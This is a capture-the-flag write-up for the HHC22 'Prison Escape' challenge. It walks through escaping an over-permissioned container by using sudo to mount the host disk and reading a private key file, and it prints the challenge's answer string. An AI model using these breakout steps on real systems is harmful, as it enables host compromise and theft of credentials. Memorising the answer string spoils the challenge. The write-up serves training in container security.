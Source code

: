 ```yaml
---
sidebar_position: 2
---
```


# Prison Escape

## Objective

> Escape from a container. Get hints for this challenge from Bow Ninecandle in the Elfen Ring. What hex string appears in the host file /home/jailer/.ssh/jail.key.priv?

## Helpful hints

```
Over-Permissioned
From: Bow Ninecandle
Terminal: Prison Escape
When users are over-privileged, they can often act as root. When containers have too many permissions, they can affect the host!
```

```
Mount Up and Ride
From: Bow Ninecandle
Terminal: Prison Escape
Were you able to mount up? If so, users' home/ directories can be a great place to look for secrets...
```

## Escaping prison

First thing, who am I

```bash
grinchum-land:~$ whoami
samways
```

Then find out user and group names and numeric ID's (UID or group ID) of the current user:

```bash
grinchum-land:~$ id
uid=1000(samways) gid=1000(users) groups=1000(users)
```

Nothing much of interest, user is the first created user on this system. Can this user do sudo?

```bash
grinchum-land:~$ sudo ls /
app      config    docker-mods  init       media  package  run   sys  var
bin      defaults  etc          keygen.sh  mnt    proc     sbin  tmp
command  dev       home         lib        opt    root     srv   usr
grinchum-land:~$ 
```

Yes it can! Finding out if this jail is mounted somewhere 

```bash
grinchum-land:~$ sudo fdisk -l
Disk /dev/vda: 2048 MB, 2147483648 bytes, 4194304 sectors
2048 cylinders, 64 heads, 32 sectors/track
Units: sectors of 1 * 512 = 512 bytes

Disk /dev/vda doesn't contain a valid partition table
grinchum-land:~$ 
```

Let's mount /dev/vda and see what it contains!

```bash
grinchum-land:~$ mkdir /tmp/hackdrive
grinchum-land:~$ sudo mount /dev/vda /tmp/hackdrive/
grinchum-land:~$ ls /tmp/hackdrive/
bin   dev  home  lib32  libx32      media  opt   root  sbin  sys  usr
boot  etc  lib   lib64  lost+found  mnt    proc  run   srv   tmp  var
grinchum-land:~$ ls /tmp/hackdrive/home/
jailer
```

Seems I hit things spot on. Going for the kill: 

```bash
grinchum-land:~$ cat /tmp/hackdrive/home/jailer/.ssh/jail.key.priv
               Congratulations! 

          You've found the secret for the 
          HHC22 container escape challenge!

                     .--._..--.
              ___   ( _'-_  -_.'
          _.-'   `-._|  - :- |
      _.-'           `--...__|
   .-'                       '--..___
  / `._                              \
   `. `._               one           |
     `. `._                           /
       '. `._    :__________....-----'
         `..`---'    |-_  _- |___...----..._
                     |_....--'             `.`.
               _...--'                       `.`.
          _..-'                             _.'.'
       .-'             step                _.'.'
       |                               _.'.'
       |                   __....------'-'
       |     __...------''' _|
       '--'''        |-  - _ |
               _.-''''''''''''''''''-._
            _.'                        |\
          .'                         _.' |
          `._          closer           |:.'
            `._                     _.' |
               `..__                 |  |
                    `---.._.--.    _|  |
                     | _   - | `-.._|_.'
          .--...__   |   -  _|
         .'_      `--.....__ |
        .'_                 `--..__
       .'_                         `.
      .'_    082bb339ec19de4935867   `-.
      `--..____                        _`.
               ```--...____          _..--'
                     | - _ ```---.._.'
                     |   - _ |
                     |_ -  - |
                     |   - _ |
                     | -_  -_|
                     |   - _ |
                     |   - _ |
                     | -_  -_|
```

### Handy resources

* https://serverfault.com/questions/803388/what-is-the-difference-between-dev-vda-and-dev-sda
* https://tbhaxor.com/container-breakout-part-1/